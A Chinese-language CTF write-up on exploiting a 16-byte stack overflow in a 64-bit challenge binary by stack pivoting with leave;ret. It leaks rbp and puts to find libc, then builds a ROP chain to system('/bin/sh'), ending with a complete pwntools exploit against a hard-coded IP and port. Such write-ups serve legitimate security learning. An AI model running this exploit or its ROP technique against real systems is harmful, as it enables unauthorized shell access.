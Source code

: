 ## 准备步骤

```sh
checksec stack1

#    Arch:     amd64-64-little
#    RELRO:    Partial RELRO
#    Stack:    No canary found
#    NX:       NX enabled
#    PIE:      No PIE (0x3fe000)
```

ida检查，发现漏洞，在`sub_400676()`中有16个字节的溢出

```c
int sub_400676()
{
  char buf[80]; // [rsp+0h] [rbp-50h] BYREF

  memset(buf, 0, sizeof(buf));
  putchar('>');
  read(0, buf, 96uLL);      //溢出
  return puts(buf);
}
```

但这是64为程序，且溢出只能覆盖`rbp`和返回地址，这就导致不能一次性构造参数并调用。我们可以考虑进行**栈迁移**，把执行流的栈转到别的地方。

## 栈迁移原理

### 条件
栈迁移主要是针对溢出长度不够，无法进行传参（比如本题只够覆盖rbp和返回地址），但需要可以覆盖到rbp以迁移栈。

### 关键指令 `leave;ret;`

`leave` 指令可以看成两条指令 `mov rsp,rbp; pop rbp;` ，可以看出这条指令原本是用来还原调用函数前的栈帧的，但如果我们提前改变`rbp` 的值，譬如，改成比现在 `rsp` 地址还低的位置（即栈的高处），那么在执行语句之后栈帧就在上方，可以利用之前在栈中写入的数据（题中的 `buffer` ）控制程序流程了。

如果不清楚的话，可再看看这篇文章：[栈迁移的原理&&实战运用](https://www.cnblogs.com/ZIKH26/articles/15817337.html)

## 构造payload

### 泄露`rbp`

因为我们要修改`rbp`，所以我们要先知道原来`rbp`的值，再在其基础上进一步修改。

```python
print(conn.recv(1))
payload1=b"a"*80
conn.send(payload1)
old_rbp_addr=int.from_bytes(conn.recv()[80:86],'little')# >
```

如果rbp的低位中没有`\x00`的话，puts就会将80个a和`rbp`打印出来，截取6个字符是因为64位的栈从`0x7f??????????` 开始，前面有两个`\x00`字符，puts打印不出来

### 泄露libc基址

我们gdb一下

```sh
gdb stack1
b *0x0000000000400710   #这是主循环函数sub_400676()的入口
r
s                       #单步进入函数sub_400676()
n
```

```gdb
──────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────
   0x400676    push   rbp
 ► 0x400677    mov    rbp, rsp
   0x40067a    sub    rsp, 0x50
   0x40067e    lea    rdx, [rbp - 0x50]
   0x400682    mov    eax, 0
   0x400687    mov    ecx, 0xa
   0x40068c    mov    rdi, rdx
   0x40068f    rep stosq qword ptr [rdi], rax
    ↓
   0x40068f    rep stosq qword ptr [rdi], rax

───────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffd7c0 —▸ 0x7fffffffd7e0 —▸ 0x400730 ◂— 0x41ff894156415741
01:0008│     0x7fffffffd7c8 —▸ 0x400715 ◂— 0xb890f0eb0274c085
02:0010│     0x7fffffffd7d0 —▸ 0x7fffffffd8c8 —▸ 0x7fffffffdb6f ◂— '/home/kali/ctf/pwn/q29_stack1/stack1'
03:0018│     0x7fffffffd7d8 ◂— 0x100000000
04:0020│ rbp 0x7fffffffd7e0 —▸ 0x400730 ◂— 0x41ff894156415741
05:0028│     0x7fffffffd7e8 —▸ 0x7ffff7a2d840 (__libc_start_main+240) ◂— mov edi, eax
06:0030│     0x7fffffffd7f0 ◂— 0x1
07:0038│     0x7fffffffd7f8 —▸ 0x7fffffffd8c8 —▸ 0x7fffffffdb6f ◂— '/home/kali/ctf/pwn/q29_stack1/stack1'
```

其中`0x7fffffffd7c8` 是新建栈帧返回地址所在，`0x7fffffffd7c0` 是原来rbp地址所在，值为`0x7fffffffd7e0` 再加上buffer的0x50大小，就可以计算新rbp及栈顶的位置了

```python
now_rbp_addr=old_rbp_addr-0x20
now_esp_addr=now_rbp_addr-0x50
return_addr2=0x0000000000400710  #call            rbp_3|  rbp_2          normal_ret
payload2=p64(now_rbp_addr)+p64(rdi_addr)+p64(puts_got)+p64(puts_plt)+p64(return_addr2)+b'a'*(0x50-0x8*5)+p64(now_esp_addr)+p64(leave_addr)
conn.send(payload2)
puts_addr=int.from_bytes(conn.recvuntil(b'\x7f\x0a\x3e')[-8:-2],'little')
```

这个payload将新栈帧转到原来的栈顶并执行传参和对puts的调用

### Pwn it！

计算binsh和system真实地址

```python
libcbase=puts_addr-puts_libc
abinsh_addr=libcbase+abinsh_libc
system_addr=libcbase+system_libc
```

与上一步相同的方法构造新栈帧

```python
now_ebp_addr-=56
now_esp_addr=now_ebp_addr-0x50
payload3=b'a'*8+p64(rdi_addr)+p64(abinsh_addr)+p64(system_addr)+b'a'*(0x50-0x8*4)+p64(now_esp_addr)+p64(leave_addr) #前面8个a是新的rbp，但不过这个rbp已经没用了，所以可以随便填
conn.send(payload3)
conn.interactive()
```

## exp

```python
from pwn import *
ip="124.16.75.117"
port=51001
conn=connect(ip,port)
#conn=process("./pwn/q29_stack1/stack1")
#conn=gdb.debug('./pwn/q29_stack1/stack1','b *0x00000000004006C4')
libc=ELF('./pwn/q29_stack1/libc.so.6')
puts_libc=libc.sym['puts']
system_libc=libc.sym['system']
abinsh_libc=libc.search(b'/bin/sh').__next__()
context.log_level="debug"

leave_addr=0x00000000004006BE
rdi_addr=0x0000000000400793
puts_got=0x0000000000601020
puts_plt=0x0000000000400530

#***************1***************
print("111111111111111111111111")
print(conn.recv(1))
payload1=b"a"*80
conn.send(payload1)
old_ebp_addr=int.from_bytes(conn.recv()[80:86],'little')# > is here
print(hex(old_ebp_addr))

#***************2***************
print("222222222222222222222222")
now_ebp_addr=old_ebp_addr-0x20
now_esp_addr=now_ebp_addr-0x50
return_addr2=0x0000000000400710  #call            ebp_3|  ebp_2          normal_ret
payload2=p64(now_ebp_addr)+p64(rdi_addr)+p64(puts_got)+p64(puts_plt)+p64(return_addr2)+b'a'*(0x50-0x8*5)+p64(now_esp_addr)+p64(leave_addr)
conn.send(payload2)
puts_addr=int.from_bytes(conn.recvuntil(b'\x7f\x0a\x3e')[-8:-2],'little')

libcbase=puts_addr-puts_libc
abinsh_addr=libcbase+abinsh_libc
system_addr=libcbase+system_libc
print(hex(puts_addr),hex(libcbase))


#****************3***************
print("33333333333333333333333")
now_ebp_addr-=56
now_esp_addr=now_ebp_addr-0x50
payload3=b'a'*8+p64(rdi_addr)+p64(abinsh_addr)+p64(system_addr)+b'a'*(0x50-0x8*4)+p64(now_esp_addr)+p64(leave_addr)
conn.send(payload3)
conn.interactive()
```

